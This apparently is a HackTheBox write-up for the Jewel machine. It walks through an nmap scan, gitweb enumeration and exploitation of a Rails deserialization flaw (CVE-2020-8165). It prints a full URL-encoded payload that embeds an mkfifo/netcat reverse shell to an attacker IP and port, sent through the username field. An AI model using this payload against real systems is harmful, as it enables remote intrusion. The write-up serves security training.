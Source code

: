 ```yaml
---
title: HackTheBox Jewel Writeup
published: true
---
```


![](https://i.ibb.co/Q9tCD1K/logo.png)

# []()Methodlogy

* Nmap Scan
* Enumerating the web service
* found a version of ruby and exploit of it.
* server side template injection exploitation
* found the password of user bill in /var/backup
* found the secret token of Google Authenticator
* using sudo -l leads us to final part!.

# []()Nmap Scan

> **as always, i’ll do nmap scan to find out which services running in this machine, and i found these services.**

* **22 for ssh service.**
* **8000 for http**
* **8080 for nginx**

> **nmap -Pn -sC -sV -oN scan.txt 10.10.10.211**

```ruby

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)
|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)
|_  256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)
8000/tcp open  http    Apache httpd 2.4.38
|_http-generator: gitweb/2.20.1 git/2.20.1
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
| http-title: jewel.htb Git
|_Requested resource was http://jewel.htb:8000/gitweb/
8080/tcp open  http    nginx 1.14.2 (Phusion Passenger 6.0.6)
|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
|_http-title: BL0G!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

# []()Web Service Enumeration

* **let's add jewel.htb to our /etc/hosts and start enumerating the web service.**

> **i've found a basic blog on port 8080**

![](https://i.ibb.co/DVznD7p/basic-web-page.png)

* let's sign up and look deeper.

* here i'm logged in.

![](https://i.ibb.co/mXQQNP0/logged-in.png)

> **let's check the port 8000 now.**

![](https://i.ibb.co/D4QSrHB/port-8000.png)

> **it's a .git directory, let's check if there is any good things for us.**

> **click on .git and click on intial commit and yoi will find some Gem files so let's check it.**

![](https://i.ibb.co/CtdbzT0/gem-files.png)

> **in the gem file i found the ruby version**.

![](https://i.ibb.co/WxxZLx9/ruby-version.png)

> **and there's exploit for this version**

* Link: [Ruby On Rils](https://github.com/masahiro331/CVE-2020-8165)

![](https://i.ibb.co/qkHqBD3/ruby-exploit.png)

> **now we need to register a new user and put the payload in the username field to get a reverse shell.**

> **let's register a new user and click on profile and click edit and click save and intercept the request with burpsuite**.

![](https://i.ibb.co/JmP9ZpR/burp-suite.png)

> **put this payload in username filed with changing the IP address.**

* payload: **%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.XX.XX+9001+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T**

* **send the request twice and then refresh the web page.**

* **don't forget to start nc listener.**

![](https://i.ibb.co/R6NFYFC/reverse-shell.png)

* **nice!, we got a reverse shell now.**

